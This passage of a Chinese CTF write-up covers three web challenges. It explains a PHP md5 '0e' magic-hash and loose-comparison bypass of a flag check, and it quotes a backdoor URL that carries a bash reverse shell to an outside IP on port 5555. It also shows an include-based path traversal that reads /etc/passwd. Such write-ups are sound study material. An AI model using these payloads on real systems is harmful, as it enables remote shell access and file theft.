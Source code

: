 源码泄漏：

```php
 $test=$_GET['userid']; $test=md5($test); 
   if($test != '0'){ 
      	$this->error('用户名有误,请阅读说明与帮助！'); 
   	}
$pwd =$this->_post("password");
$data_u = unserialize($pwd);
if($data_u['name'] == 'XX' && $data_u['pwd']=='XX')
    {
      print_r($flag);
    }
```

前者是md5成0e开头的字符串即可。后者利用布尔弱类型绕过。参考：http://www.cnblogs.com/ssooking/p/5877086.html

![5](https://moxiaoxi.info/img/post/EIS/5.png)

## Apache

Hacklu原题，队内大佬carry。

> 通过__libc_start_main劫持strlen函数来安装后门，满足条件的payload可以被system执行，最后首先发送一个正常的get请求，再发送/index.html?eqeqeqbnbnbnbnbkwkwkwkwhththththqeq=bash_-c_'bash_-i_>&_/dev/tcp/202.112.50.114/5555_0>&1'获得一个reverse shell,直接cat flag.txt即可。

URL 中需有 'dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp' or 'eqeqeqbnbnbnbnbkwkwkwkwhththththqeq'，后⾯面跟命令即可，其中下划线会被替换为空格。

## SimpleCMS

这题比赛的时候没做出来，应该是缓存的问题。以前没研究过，不是很懂。

信息：

1. 两个文件包含点：

   - ?page=../../../../../../../../etc/passwd 

     ```php
     <?php
         if (isset($_GET['page'])) {
             $page = $_GET['page'];
         } else {
             $page = 'a.php';
         }

         $path = './pages/' . $page;
         $path = realpath($path);

         if (is_file($path)) {
             include $path;
         } else {
             echo '<p>Page not found!</p>';
         }
     ```
